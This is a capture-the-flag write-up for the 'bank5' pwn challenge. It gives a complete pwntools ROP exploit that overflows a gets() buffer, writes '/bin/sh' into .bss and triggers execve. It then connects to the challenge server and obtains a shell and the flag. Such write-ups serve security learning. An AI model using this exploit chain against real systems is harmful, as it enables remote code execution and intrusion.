

## bank5 (200 points)

#### Solved by hieplpvip

```
nc 61.28.237.24 30206

author: xikhud
```

Decompiling `bank5` with IDA, we see that `getFlag` no longer exists. NX is also enabled, so we can not inject shellcode. However, as `bank5` is not PIE and uses gets (which accepts null bytes) to read our input, we can easily exploit the buffer overflow using ROP.



Our goal is to call `execve("/bin/sh", NULL, NULL)`. We need to setup the registers as follows:

```
EAX = 11 - The execve syscall number
EBX = Address in memory of the string "/bin/sh"
ECX = NULL
EDX = NULL
```

`/bin/sh` doesn't exist in `bank5`, so we also need to put it in memory.

```py
from pwn import *

INT_0x80_ADDR = 0x08049553  # int 0x80
POP_EAX_ADDR = 0x0809d514  # pop eax ; ret
POP_EDX_ADDR = 0x0806dfab  # pop edx ; ret
POP_ECX_EBX_ADDR = 0x0806dfd2  # pop ecx ; pop ebx ; ret
MOV_EDX_INTO_EAX_ADDR = 0x0809cd34  # mov dword ptr [eax], edx ; ret
SAFE_ADDR = 0x080da320  # .bss section
EXEC = "/bin/sh\x00"
EXEC = [EXEC[:4], EXEC[4:]]

def write_mem(value, addr):
  if type(value) == int:
    value = pack(value)
  if type(value) == str:
    value = value.encode('utf-8')
  payload = pack(POP_EDX_ADDR) + value
  payload += pack(POP_EAX_ADDR) + pack(addr)
  payload += pack(MOV_EDX_INTO_EAX_ADDR)
  return payload

# Write EXEC into SAFE_ADDR
payload = b"A" * 80  # padding
payload += write_mem(EXEC[0], SAFE_ADDR)
payload += write_mem(EXEC[1], SAFE_ADDR + 4)

# Populate registers for the syscall
payload += pack(POP_EAX_ADDR) + pack(11)
payload += pack(POP_ECX_EBX_ADDR) + pack(0) + pack(SAFE_ADDR)
payload += pack(POP_EDX_ADDR) + pack(0)

# Syscall
payload += pack(INT_0x80_ADDR)
print(payload.hex())

conn = remote('61.28.237.24', 30206)
conn.sendline(payload)
conn.recv()
conn.interactive()
```

```
$ ls
bank5
bin
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
HCMUS-CTF{rop_and_shellcode}
```

**Flag:** `HCMUS-CTF{rop_and_shellcode}`
